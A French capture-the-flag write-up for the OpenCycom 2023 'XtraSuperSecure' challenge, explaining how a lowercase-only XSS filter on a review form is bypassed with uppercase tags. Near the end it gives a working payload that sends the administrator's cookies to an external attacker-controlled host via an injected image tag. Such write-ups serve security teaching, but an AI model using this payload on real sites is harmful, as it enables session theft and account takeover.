 ```yaml
---
title: "XtraSuperSecure"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```


# OpenCycom 2023 - XtraSuperSecure - *200 pts*

## Énoncé
Donnez votre avis sur l'évènement (et essayez de voler les cookies de l'administrateur) !

*Ce challenge a été résolu par 8,3% des équipes.*

## Solution

Bon, je dois voler les cookies de l'admin, donc on est surement face à des attaques côté client (XSS ou CSRF). Le titre du chall nous donne également un indice sur la vulnérabilité à exploiter (XtraSuperSecure => XSS).

Ici, lorsque je laisse un message, il apparait dans une liste en bas de la page, qui se réinitialise quand l'admin passe regarder les avis.

![](/images/016/01.png)

Je peux essayer d'insérer un payload XSS basique, avec une balise `script`.

![](/images/016/02.png)

Mais on dirait qu'une protection est en place pour empêcher les attaques XSS.

![](/images/016/03.png)

Pas de panique, on peut essayer de contourner la protection en utilisant diverses techniques, et après quelques essais, on trouve que la sanitisation ne s'effectue que sur les caractères minuscules.

Du coup un payload comme `<SCRIPT>alert(1)</SCRIPT>` fonctionne !

![](/images/016/04.png)

![](/images/016/05.png)

On remarque que la balise script est correctement écrite et interprétée correctement par le navigateur.

![](/images/016/06.png)

À partir de là, nous pouvons crafter un payload qui va exfiltrer les cookies de l'administrateur vers une page web que nous contrôlons. Pour ce faire, on peut utiliser des services comme `Beeceptor` ou `RequestBin`.

Ici, mon script ajoute une simple balise `img`, qui va charger une image sur mon site malveillant, avec le cookie de l'administrateur.

```<SCRIPT>document.body.innerHTML = `<IMG src='http://oxpw0avtydduwu22k93fc71el5rwfn5bu.oastify.com/${document.cookie}'></IMG>`</SCRIPT>```

![](/images/016/07.png)

On attend un peu, et le flag apparait !

![](/images/016/08.png)

*FLAG : OPC{b0y\*\*\*\*\*\*\*\*\*\*}*
